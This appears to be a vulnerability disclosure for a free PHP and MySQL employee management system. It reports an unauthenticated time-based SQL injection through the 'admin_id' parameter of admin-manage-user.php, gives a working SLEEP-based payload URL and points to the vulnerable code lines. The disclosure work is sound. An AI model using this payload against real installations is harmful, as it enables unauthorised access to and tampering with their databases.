 # php task management system free download - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17217/employee-management-system-php-and-mysql-free-download.html

http://localhost/admin-manage-user.php?delete_user=1&admin_id=1   -----> 'admin_id' can control some admin_id parameters

Payload:admin-manage-user.php?delete_user=1&admin_id=1%20AND%20(SELECT%20a%20FROM%20(SELECT(SLEEP(10)))U)

When you execute this payload, you will notice a delay of around 10 seconds. This indicates that the sleep statement has been successfully executed in the database, causing a SQL injection vulnerability.

![1](https://github.com/xuanluansec/vul/blob/main/vul/img/2.png)

The parameter received on line 22 of the admin-manage-user.php file in the website's root directory triggers a SQL injection vulnerability until line 26.

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/1.png)

Note: I noticed that there is code ```require 'authentication.php';``` on line 2 of admin-manage-user.php, which seems to be related to login validation, but it is not effective. I was able to successfully perform SQL injection while unauthorized.

![3](https://github.com/xuanluansec/vul/blob/main/vul/img/4.png)

![4](https://github.com/xuanluansec/vul/blob/main/vul/img/3.png)
